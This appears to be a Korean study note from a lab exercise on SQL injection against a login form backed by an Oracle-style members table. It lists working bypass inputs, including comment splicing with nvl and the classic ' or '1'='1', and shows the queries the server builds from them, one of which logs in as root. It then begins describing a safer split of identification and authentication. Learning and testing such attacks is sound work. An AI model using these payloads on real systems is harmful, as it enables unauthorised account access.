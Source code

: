 <br><br>
- **주석 + or + nvl사용** (members 테이블의 가장 상위에 있는 root 로 로그인된다.)

| | 입력|
| --- | ---|
|id| `user2'/*`|
|pwd|  `*/ or '1'=nvl('1`|

- 서버에서 완성된 쿼리문<br>
`select id from members where id='user2'/*' and hashpwd=standard_hash('*/ or '1'=nvl('1','SHA512')`<br>![Pasted image 20230419142842](https://user-images.githubusercontent.com/31990118/232990160-db93d3d4-95cc-4498-90b2-0d20d2a552df.png)
<br>![Pasted image 20230419142857](https://user-images.githubusercontent.com/31990118/232990195-078251e2-8dec-4601-9bb3-b84fcd2eb24f.png)
- 여기서 user2 사용자가 아닌 root로 로그인 된 것을 확인할 수 있다. 
- 서버에서 완성된 쿼리는 모든 사용자 정보를 불러오고 서버는 사용자 정보들 중 맨위에 존재하는 사용자의 정보를 가져와 보여준다. 
- 테이블 맨위에는 root 사용자가 존재하여 root 계정으로 로그인된 것 이다.
<br><br>


- **주석 + and + nvl사용**

| | 입력|
| --- | ---|
|id| `user2'/*`|
|pwd|  `*/ and '1'=nvl('1`|

- 서버에서 완성된 쿼리문<br>
`select id from members where id='user2'/*' and hashpwd=standard_hash('*/ and '1'=nvl('1','SHA512')`<br>![Pasted image 20230419144106](https://user-images.githubusercontent.com/31990118/232990461-99c1e174-9ff6-4b03-ad3c-a65c52e55953.png)<br>![Pasted image 20230419144117](https://user-images.githubusercontent.com/31990118/232990496-9034bd9e-eb22-41a4-8351-925d908d97e8.png)

<br><br>
- **or 이용하기**

| | 입력|
| --- | ---|
|id|  `user2' or '1'='1`|
|pwd|` ` |

- 서버에서 완성된 쿼리문<br>
`select id from members where id='user2' or '1'='1' and hashpwd=standard_hash(' ','SHA512')`<br>![Pasted image 20230419143137](https://user-images.githubusercontent.com/31990118/232990748-9179397a-d4e8-4f39-b657-bbbcf04faa9c.png)<br>![Pasted image 20230419143153](https://user-images.githubusercontent.com/31990118/232990788-47801f8e-ce8b-453b-a9a3-b43bb8ba0b98.png)


<br><br>
#### 4. 식별과 인증을 따로 할 때(+ 비밀번호 SHA512 하여 table에 저장)

>로그인 방법
1.  유저가 입력한 id와 `sql 질의문`을 통해 id 정보와 해시로 저장된 비밀번호 정보를 불러온다.<br>`select id,hashpwd from members where id='아이디'`
2. 유저가 입력한 비밀번호를 해시 암호화 알고리즘을 통해 암호화 한다.
3. 유저가 입력한 해시화 된 비밀번호와 db에서 불러온 해시화된 비밀번호를 비교한다.
4. 서로 일치하면 db 에서 불러온 `id` 정보를 이용하여 나머지 유저 정보도 불러온다.
